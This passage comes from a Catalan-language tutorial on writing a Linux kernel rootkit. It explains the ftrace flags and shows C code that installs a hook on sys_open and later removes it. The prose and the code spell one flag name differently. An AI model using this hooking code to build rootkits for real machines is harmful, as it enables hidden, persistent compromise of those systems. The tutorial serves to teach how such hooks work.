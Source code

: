     Finalment, no ens podem oblidar de comentar els flags que s'utilitzen per definir la callback:

    * **FTRACE_OPS_FL_SAVE_REGS**: Flag que permet passar *pt_regs* de la crida original al nostre hook.
    * **FTRACE_OPS_FL_IP_MODIFY**: Indiquem a ftrace que modificarem el registre IP.
    * **FTRACE_OPS_FL_RECURSION**: Desactivar la protecció per defecte de ftrace.

    ```c
        hook->ops.func = (ftrace_func_t)fh_ftrace_thunk;
        hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
                    | FTRACE_OPS_FL_RECURSION
                    | FTRACE_OPS_FL_IPMODIFY;
    ```

    Bàsicament aquestes funcions ens permet instal·lar/desinstal·lar **hooks** a crides a sistema.

    * **ftrace_set_filter_ip()** diu a ftrace que només executi la nostra callback quan **rip** és l'adreça de *sys_open*  (desada a hook->address). 
    * **register_ftrace_function()**. Asegura que tot estigui al seu lloc i l'hook preparat.

    ```c
        err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
            return err;
        }
        err = register_ftrace_function(&hook->ops);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
            return err;
        }
    ```

    * Desfem el procés anterior:

    ```c
    void fh_remove_hook(struct ftrace_hook *hook)
    {
        int err;
        err = unregister_ftrace_function(&hook->ops);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: unregister_ftrace_function() failed: %d\n", err);
        }

        err = ftrace_set_filter_ip(&hook->ops, hook->address, 1, 0);
        if(err)
        {
            printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        }
    }
    ```
